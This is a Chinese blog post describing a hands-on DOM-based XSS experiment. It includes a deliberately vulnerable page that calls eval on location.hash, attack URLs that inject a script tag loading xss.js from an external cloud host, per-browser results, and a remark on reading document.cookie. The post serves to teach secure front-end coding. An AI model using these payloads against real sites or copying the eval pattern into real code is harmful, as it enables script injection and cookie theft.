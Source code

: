 之前就对XSS有所耳闻，不过昨天在学习《深入浅出nodejs》过程中，才深入了解到XSS攻击的原理，于是找到那本很早就想看的《web前端黑客技术解密》，找到 跨站攻击脚本XSS 章节，于是有了下面这个简单的XSS攻击实验。
####index.html
```
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<title>XSSdemo</title>
</head>
<script>
    eval(location.hash.substr(1))
</script>
<body>
	
</body>
</html>
```
关键代码：eval(location.hash.substr(1))

#### xss.js（XSS攻击脚本，存储在七牛云上：http://ov6jc8fwp.bkt.clouddn.com/xss.js）
```
alert("你的网站被XSS攻击了！")
```
关键代码：alert("你的网站被XSS攻击了！")
Cookie被经常当作输入点，可以使用escape(document.cookie)来获取用户Cookie中保存的敏感信息，例如电话号码，密码等等。

#### 如何进行攻击？
待访问文件xss.html的url上加上hash值。
`#document.write("<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")`

例如：
file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write("<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")

在真实环境中，这段file:///C:/Users/jack/Desktop/XSSdemo/可以是http://192.168.32.89:80/，http://192.16.32.89:8080/等真实地址。
完整形式如：http://192.16.32.89:8080/index.html#document.write("<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")

#####可以攻击Chrome吗?
在Chrome中输入
>file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write(<script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")

会被Chrome拦截，拦截截图如下：

![](http://upload-images.jianshu.io/upload_images/2976869-05c2854c7a847abb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

为什么会被拦截？
因为Chrome 的filter防御机制会导致这个无法成功，其它浏览器可以被攻击。

#####那么如何攻击FireFox呢？
（浏览器版本为Firefox 57.0 Quantum版）
需要对原始攻击代码做下简单调整。
  `eval(decodeURI(location.hash.substr(1)))`
相应的访问链接也更改为`file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write(<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")`

XSS攻击FireFox成功！
![](http://upload-images.jianshu.io/upload_images/2976869-b89a9ce80c02080e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
可以看到，XSS脚本被成功写入到index.html
![](http://upload-images.jianshu.io/upload_images/2976869-d9b4f6d08edfe148.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#####IE可以被攻击吗？
（浏览器版本为IE11.726.15063.0 ）
XSS攻击IE11成功！
![](http://upload-images.jianshu.io/upload_images/2976869-08bf2bb128a41f63.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

攻击了这么久，难道我是要去绿，哦不，黑别人吗？
NoNoNo，我是为了让自己的网站更加安全。

之前有了解到javascript的eval()会有安全问题，通过今天的例子，才明白eval()原来会帮助 XSS攻击输入点代码进行攻击，例如：
本例中的输入点为location.hash.substr(1)，其值为'document.write(<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")'

本质上eval(decodeURI(location.hash.substr(1)))
其实就是执行了eval'(document.write(`<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>")')

简单来说，**eval()会执行XSS跨站攻击脚本**，前端工程师在开发过程中要注意eval()使用存在的安全隐患。

对于浏览器喜爱程度，我想Chrome在防御XSS攻击方面又为自己加了不少分，以后强推Chrome又多了一个理由。

其实关于XSS攻击还有很多学问在其中，我所了解到的只是冰山一角，后续再继续探索！

That's it !